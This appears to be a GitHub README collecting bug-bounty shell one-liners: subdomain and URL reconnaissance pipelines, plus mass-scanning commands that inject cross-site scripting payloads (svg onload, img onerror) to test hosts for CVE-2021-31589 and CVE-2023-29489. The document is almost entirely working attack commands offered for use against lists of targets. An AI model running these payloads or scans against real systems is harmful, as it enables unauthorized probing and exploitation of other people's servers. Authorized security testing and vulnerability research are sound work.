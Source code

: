 # Oneliner-Bugbounty
A collection  oneliner scripts for bug bounty

### Auto scanner

```bash
subfinder -d site.com | httpx | nuclei -t nuclei-templates
```

### Finding files (For example in here .json file)

```bash
subfinder -d site.com | httpx | waybackurls | grep -E ".json(?:onp?)?$"
```

### CVE-2021-31589

```bash
cat subs.txt | while read host do; do curl -sk "$host/appliance/login.ns?login%5Bpassword%5D=test%22%3E%3Csvg/onload=alert(document.domain)%3E&login%5Buse_curr%5D=1&login%5Bsubmit%5D=Change%20Password" | grep -qs '"><svg/onload=alert(document.domain)>' && echo "$host: Vuln" || echo "$host: Not Vuln"; done
```

### CVE-2023-29489

```bash
subfinder -d target.com -silent -all | httpx -silent -ports http:80,https:443,2082,2083 -path 'cpanelwebcall/<img%20src=x%20onerror="prompt(document.domain)">aaaaaaaaaa' -mc 400
``` 
